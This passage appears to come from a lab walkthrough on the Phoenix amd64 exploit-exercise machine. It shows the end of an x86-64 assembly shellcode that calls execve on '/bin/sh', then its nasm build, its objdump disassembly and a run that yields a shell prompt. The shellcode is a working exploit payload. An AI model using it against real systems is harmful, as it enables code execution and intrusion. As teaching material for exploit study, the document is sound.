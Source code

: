 ```asm
xor rsi, rsi
xor rdx, rdx

; call execve
xor rax, rax
mov al, 59
syscall
```

Now let's try it:
```console
user@phoenix-amd64:~$ nasm -f elf64 -o test.o ourshellcode.s; objdump -d -M intel test.o; ld test.o -o test.a

test.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   55                      push   rbp
   1:   48 89 e5                mov    rbp,rsp
   4:   48 83 ec 10             sub    rsp,0x10
   8:   48 bf 2e 2f 62 69 6e    movabs rdi,0x68732f6e69622f2e
   f:   2f 73 68
  12:   48 c1 ef 08             shr    rdi,0x8
  16:   48 89 7c 24 f8          mov    QWORD PTR [rsp-0x8],rdi
  1b:   48 8d 7c 24 f8          lea    rdi,[rsp-0x8]
  20:   48 31 f6                xor    rsi,rsi
  23:   48 31 d2                xor    rdx,rdx
  26:   48 31 c0                xor    rax,rax
  29:   b0 3b                   mov    al,0x3b
  2b:   0f 05                   syscall
user@phoenix-amd64:~$ ./test.a
$ exit
```
